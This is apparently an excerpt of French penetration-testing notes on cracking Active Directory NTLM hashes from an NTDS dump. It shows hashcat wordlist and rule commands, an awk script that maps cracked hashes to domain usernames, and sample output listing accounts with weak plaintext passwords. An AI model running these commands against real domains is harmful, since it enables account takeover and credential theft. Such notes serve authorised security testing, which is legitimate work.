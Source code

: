```chatgpt
```

#### 6.6 Ajout des villes des boutiques et des code postaux


#### 6.8 Ajout de rule hashcat

```bash
hashcat --force /workspace/Interne/ADCS/Pwn/Wordlist/wordlist-custom.txt -r /opt/tools/john/run/rules/OneRuleToRuleThemAll.rule --stdout >> Interne/ADCS/Pwn/Wordlist/mega-wordlist.txt
cat /opt/rockyou.txt | anew Interne/ADCS/Pwn/Wordlist/mega-wordlist.txt
```

#### 6.4 Crackage 

```bash
hashcat -m 1000 -a 0 NT.txt /opt/rockyou.txt --force --optimized-kernel-enable
hashcat -m 1000 -a 0 NT.txt users.txt --force --optimized-kernel-enable

# Voir le résutat
hashcat -m 1000 --show NT.txt
[...]
#  e5f98b9d64ea2290b5fd242b4faa918d:Azerty01
#  32ed87bdb5fdc5e9cba88547376818d4:123456
#  17739ebab781437ee8e646e9a212e111:Lyon69009
#  9ab14788afc13c83576dfb13ac619152:Azerty123
[...]
```

#### 6.4 Mise en corélation user/password

```bash
cd ~/.exegol/workspaces/domain/Interne/ADCS/Pwn
hashcat -m 1000 --show /Users/raph/.exegol/workspaces/domain/Interne/ADCS/Pwn/Hash/NT.txt --force --optimized-kernel-enable | sort -u > Craked/hashcat-cracked.txt
awk -F: '
NR==FNR { cracked[$1]=$2; next }
$4 in cracked {
    if (cracked[$4] == "")
        print $1 ":empty";
    else
        print $1 ":" cracked[$4];
}
$4 == "31d6cfe0d16ae931b73c59d7e0c089c0" { print $1 ":empty" }
' Craked/hashcat-cracked.txt Hash/history-hash.txt.ntds | sort -u | grep -v ":empty" | anew Craked/localbo-list.txt

[...]
# bite.local\validation:Azerty1
# domain.local\f.office:AZerty1
# office.domain.local\warmachine:123456
# office.domain.local\uuuuu:123456
[...]
```

